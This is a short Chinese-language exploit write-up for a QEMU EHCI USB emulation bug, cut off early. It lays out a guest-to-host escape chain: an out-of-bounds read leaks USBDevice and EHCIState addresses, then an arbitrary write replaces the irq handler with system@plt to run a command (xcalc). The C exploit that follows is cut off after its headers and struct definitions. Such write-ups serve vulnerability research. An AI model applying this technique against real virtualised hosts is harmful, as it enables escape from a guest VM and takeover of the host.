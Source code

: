 
## 利用思路
<li>首先越界读，可以读`USBdevice`结构里面`USBEndpoint ep_ctl`，在这个结构体里面会有`USBdevice`的地址，我们可以通过这个地址获取到`data_buf`和`USBPort`
</li>
1. 然后在越界读出来的内容里有一个变量是`USBDescDevice *device`，可以根据这个变量得到system的地址
<li>
`USBDevic` 会在 realize 时，调用`usb_claim_port`，将`USBDevice`中的port字段设置为指向<br>`EHCIState`中的ports的地址， 读取`USBDevice-&gt;port`的内容就能获得`EHCIState-&gt;ports` 的地址，减去偏移得到 EHCIState的地址。进而得到EHCIState-&gt;irq地址。</li>
1. 利用任意写将`EHCIState-&gt;irq`内容填充为伪造的irq地址，将handler 填充成system[@plt](https://github.com/plt)地址，opaque填充成payload的地址，之后通过mmio_write读写触发ehci_update_irq -&gt; qemu_set_irq，最终执行system(“xcalc”)，完成利用。


## exp

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;assert.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;inttypes.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/io.h&gt;
#include &lt;stdint.h&gt;
#include &lt;stdbool.h&gt;

typedef struct USBDevice USBDevice;
typedef struct USBEndpoint USBEndpoint;
struct USBEndpoint `{`
    uint8_t nr;
    uint8_t pid;
    uint8_t type;
    uint8_t ifnum;
    int max_packet_size;
    int max_streams;
    bool pipeline;
    bool halted;
    USBDevice *dev;
    USBEndpoint *fd;
    USBEndpoint *bk;
`}`;

struct USBDevice `{`
    int32_t remote_wakeup;
    int32_t setup_state;
    int32_t setup_len;
    int32_t setup_index;

    USBEndpoint ep_ctl;
    USBEndpoint ep_in[15];
    USBEndpoint ep_out[15];
`}`;

typedef struct EHCIqh `{`
    uint32_t next;                    /* Standard next link pointer */

    /* endpoint characteristics */
    uint32_t epchar;

    /* endpoint capabilities */
```